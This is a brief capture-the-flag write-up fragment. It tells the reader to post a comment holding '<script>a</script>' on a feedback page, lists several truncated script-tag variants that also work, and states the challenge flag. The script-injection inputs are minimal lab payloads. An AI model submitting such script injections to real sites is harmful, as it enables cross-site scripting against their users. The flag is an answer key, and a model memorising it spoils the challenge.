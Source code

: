 	Write this comment in the feedback page with any name:
		<script>a</script>
	THE FLAG IS : 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E
	It seem there is a parsing and we can comment anyone of this to get the flag
		<script>a</script>
		<script>al</script>
		<script>ale</script>
		<script>aler</script>
		<script>alert</script>

		<script>a   wtf?


